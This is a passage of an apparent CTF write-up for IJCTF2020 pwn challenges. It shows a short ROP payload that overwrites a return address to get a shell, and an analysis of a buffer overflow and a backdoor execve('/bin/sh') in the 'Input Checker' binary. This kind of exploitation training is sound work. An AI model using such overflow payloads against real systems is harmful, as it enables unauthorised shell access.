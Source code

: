 #### rop

Overwrite the return address with `ropchain` that we can get shell directly:

```python
offset = 72
payload = 'A'*offset
payload += ropchain()

# ru('')
sl(payload)
```

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/IJCTF2020/pwn/admin) 



## Input Checker (100pt)

### Description

> Finding the best input.
>
> `nc 35.186.153.116 5001`
>
> Author: Tux

### Attachment

[input](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/IJCTF2020/pwn/input/input)

### Analysis

#### buffer overflow

```c
  for ( j = 0; j <= 1089; ++j ){
    chr = getchar();
    v7[j] = chr;
  }
```

>  do `getchar` 1089 times while `v7` is only 1008 bytes 

After the `for loop`, variables after `v7` will be overwritten.

#### back door

`execve("/bin/sh",0,0)` in `0x00401253`:

```nasm
0x00401253      ba00000000     mov edx, 0
0x00401258      be00000000     mov esi, 0
0x0040125d      488d3dae0d00.  lea rdi, str.bin_sh         ; 0x402012 ; "/bin/sh"
0x00401264      e837feffff     call sym.imp.execve
```
